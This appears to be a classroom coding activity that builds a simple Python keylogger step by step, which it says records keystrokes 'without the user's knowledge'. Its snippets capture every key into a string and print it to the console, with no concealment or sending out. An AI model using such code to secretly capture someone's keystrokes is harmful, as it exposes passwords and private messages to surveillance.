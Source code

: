 Detect the Button Press
======================
In this activity, you will code to detect the keystrokes on a computer without the user's knowledge.


<img src= "https://media.slid.es/uploads/1525749/images/10974016/C124_SA1.gif" width = "auto" height = "auto">




Follow the given steps to complete this activity.




1. Define a function `onPress()` that appends characters to the `text` string based on the key pressed from the keyboard.
   * Open the file `main.py`.
    * Define a global variable `text` that will hold the text entered by the user.
    ```
    text = 'Welcome to keylogger'
    ```
   * Define `onPress()` function to detect the key value for button press.
    ```
    def onPress(key):
        global text
    ```
    * Handle different key events like enter, tab, space, shift, etc. based on the key press.
    ```
        if key == keyboard.Key.enter:
            text += "\n"
        elif key == keyboard.Key.tab:
            text += "\t"
        elif key == keyboard.Key.space:
            text += " "
    ```
    * Skip logging the output if shift or command keys are pressed.
    ```
        elif key == keyboard.Key.shift:
            pass
        elif key == keyboard.Key.shift_r:
            pass
        elif key == keyboard.Key.cmd:
            pass
        elif key == keyboard.Key.cmd_r:
            pass
    ```
    * Handle the backspace key to either do nothing or remove the last character from the text variable.
    ```
        elif key == keyboard.Key.backspace and len(text) == 0:
            pass
        elif key == keyboard.Key.backspace and len(text) > 0:
            text = text[:-1]
        elif key == keyboard.Key.ctrl_l or key == keyboard.Key.ctrl_r:
            pass
    ```
    * Handle escape key events and append other keys to the text variable and print the updated text content.
    ```
        elif key == keyboard.Key.esc:
            return False
        else:
            text += str(key).strip("'")  
        print(text)
    ```
2. Define a function `onRelease()` to be called when a key is released, and return `false` if the escape key is released.
    ```
    def onRelease(key):
        if key == Key.esc:
            return False
    ```


3. Set up a keyboard listener that calls the `onPress` function and the `onRelease` function when a key is released. 
    ```
    with Listener(on_press=onPress, on_release=onRelease) as listener:
        print("!!! WELCOME TO KEYLOGGER APP !!!")
        print("!!! APP IS READY TO LISTEN THE KEYS !!!")
        listener.join()
    ```


Save and run the code to check the output.
